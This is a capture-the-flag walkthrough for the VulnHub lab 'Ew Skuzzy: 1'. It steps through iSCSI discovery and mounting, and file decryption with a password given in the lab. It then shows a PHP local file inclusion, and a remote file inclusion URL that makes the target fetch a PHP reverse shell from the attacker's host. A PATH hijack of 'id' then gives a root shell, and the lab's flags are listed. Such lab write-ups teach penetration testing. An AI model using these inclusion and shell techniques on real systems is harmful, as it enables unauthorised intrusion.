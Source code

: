 # Ew Skuzzy: 1

## Goal
flags
uid=0(root) gid=0(root) groups=0(root)

## Download
[https://www.vulnhub.com/entry/ew_skuzzy-1,184/](https://www.vulnhub.com/entry/ew_skuzzy-1,184/)

## Walkthrough
Initial nmap shows ssh on 22, web on 80, and iscsi on 3260
<br>![alt text](imgs/skuzzy-nmap-002.png)
<br><br>

Looking at the website we get a hint to scan the website using dirbuster
<br>![alt text](imgs/skuzzy-home-001.png)
<br><br>

dirb results
<br>![alt text](imgs/skuzzy-dirb-003.png)
<br><br>
*snippet of dirb results

All of the dirb results were junk except the last long URL
<br>![alt text](imgs/skuzzy-dirb-004.png)
<br><br>

Looking at the page, oh hello Lionel
<br>![alt text](imgs/skuzzy-hello-005.png)
<br><br>

Let's look at the page source and there is a long commented string (actually strings)
<br>![alt text](imgs/skuzzy-hellosource-006.png)
<br><br>

Base64 decode and Lionel trolled us
<br>![alt text](imgs/skuzzy-hellobase64-007.png)
<br><br>

With nothing else, we go back to see what we can find from the open iscsi port on 3260

Wait, ew skuzzy...iscsi....oh I get it :)

Google is always your friend, which yielded this helpful page
https://www.pentestpartners.com/blog/an-interesting-route-to-domain-admin-iscsi/

After installing iscsi tools I'm able to discover and connect to the target

iscsiadm -m node -p 192.168.0.130 -l iqn.2017-02.local.skuzzy:storage.sys0
<br>![alt text](imgs/skuzzy-iscsi-008.png)
<br><br>

fdisk reveals a new disk available at /dev/sdb
<br>![alt text](imgs/skuzzy-fdisk-009.png)
<br><br>

First we create the folder to mount to /mnt/skuzzy and then we mount and list the folder contents.  Look at that, flag1 is revealed
<br>![alt text](imgs/skuzzy-flag1-010.png)
<br><br>
flag1{c0abc15976b98a478150c900ebb0c86f0327f4dd}

Looking back at the mounted disk contents we see what appears to be another mountable disk called bobsdisk.dsk. Creating the folder, mounting, and listing we find an email file ToAlice.eml and an encrypted file ToAlice.csv.enc
<br>![alt text](imgs/skuzzy-bobsdisk-011.png)
<br><br>

Looking at the ToAlice.eml, there's a lot of useful information and some misleading in my opinion about how to decrypt the ToAlice.csv.enc file.  Also flag2 is revealed :)
<br>![alt text](imgs/skuzzy-flag2-012.png)
<br><br>
flag2{054738a5066ff56e0a4fc9eda6418478d23d3a7f}

So to decrypt the ToAlice.csv.enc file the email gives you everything you need including the password.  It hints that you need to use RockYou, but the password is right there and with that flag3 is revealed and more URLs

openssl enc -d -aes256 -in /mnt/bob/ToAlice.csv.enc -out /mnt/bob/ToAlice.csv -k supercalifragilisticoespialidoso
<br>![alt text](imgs/skuzzy-flag3-013.png)
<br><br>

flag3{2cce194f49c6e423967b7f72316f48c5caf46e84}

Now back to the webs and the URLs we found. First one has some sweet scrolling marquee
<br>![alt text](imgs/skuzzy-marquee-014.png)
<br><br>

Source code reveals more long commented strings
<br>![alt text](imgs/skuzzy-marqueesource-015.png)
<br><br>


Base64 of strings reveal a Seinfeld troll :P
<br>![alt text](imgs/skuzzy-marqueebase64-016.png)
<br><br>


Next URL looks more interesting and states in the title we're on the right track
<br>![alt text](imgs/skuzzy-2ndurl-017.png)
<br><br>

Looking at the links, first three are nothing of importance 

welcome.php
<br>![alt text](imgs/skuzzy-2ndurl-018.png)
<br><br>

flag.php
<br>![alt text](imgs/skuzzy-2ndurl-019.png)
<br><br>

party.php also includes link out to http://cultofthepartyparrot.com
<br>![alt text](imgs/skuzzy-2ndurl-020.png)
<br><br>

The last link reader.php has a new link called Load Feed. When clicked it actually calls out to a file located on the local file system named data.txt
<br>![alt text](imgs/skuzzy-2ndurl-021.png)
<br><br>

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://127.0.0.1/c2444910794e037ebd8aaf257178c90b/data.txt
<br>![alt text](imgs/skuzzy-2ndurl-022.png)
<br><br>

From here it looks like we might be able to do some LFI, so back to Google and we find this helpful site for a reminder :) https://www.idontplaydarts.com/2011/02/using-php-filter-for-local-file-inclusion/

Giving it a try on the data.txt file and we're giving a long string
<br>![alt text](imgs/skuzzy-phplfi-023.png)
<br><br>

Base64 on the string reveals the source code and it seems that normal php tags use#php## instead
<br>![alt text](imgs/skuzzy-database64-024.png)
<br><br>

With that I started checking all the .php files associated with the links and flag.php revealed flag4 also told that we'll need it later for shell access
<br>![alt text](imgs/skuzzy-flag4-025.png)
<br><br>
flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}

Base64 of reader.php was the entire source code, but hints that we need to provide a key
<br>![alt text](imgs/skuzzy-reader-026.png)
<br><br>
*snippet of reader.php

Trying RFI to Kali and told that we need a key for authentication 

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&url=http://192.168.0.131
<br>![alt text](imgs/skuzzy-keyneeded-027.png)
<br><br>

Before anything I prep the php reverse shell on Kali, but making sure that I replace the starting and ending php syntax to#php##
<br>![alt text](imgs/skuzzy-phpreverse-028.png)
<br><br>

Using flag4 as the key and calling our php reverse shell we now have a limited reverse shell :)

http://192.168.0.130/c2444910794e037ebd8aaf257178c90b/?p=reader&key=flag4{4e44db0f1edc3c361dbf54eaf4df40352db91f8b}&url=http://192.168.0.131/bzyo.php
<br>![alt text](imgs/skuzzy-reverseshell-029.png)
<br><br>

Privilege escalation took me some time as I was stuck on finding something with iscsi.  After going through the go to privilege escalation guide, the file alicebackup stood out as the other key files included alice in the name
<br>![alt text](imgs/skuzzy-suid-030.png)
<br><br>

Looking closer at the file it's executable so I run it and it runs the command /usr/bin/id and attempts an ssh connection
<br>![alt text](imgs/skuzzy-alicebackup-031.png)
<br><br>

Spent some time looking at HOSTALIASES, but that obviously didn't pan out so I took a step back...

I know that alicebackup runs id utility after executed as it prints out that root is running the program. However it's probably not using a full path and relative instead
<br>![alt text](imgs/skuzzy-pathid-032.png)
<br><br>

Let's copy /bin/sh to /tmp folder and rename it id and then add /tmp to the PATH
<br>![alt text](imgs/skuzzy-newid-033.png)
<br><br>

Running alicebackup now triggers id utility at /tmp folder, but instead of giving the user it spawns a root shell and flag5 is revealed in the root folder :)
<br>![alt text](imgs/skuzzy-flag5-34.png)
<br><br>
flag5{42273509a79da5bf49f9d40a10c512dd96d89f6a}
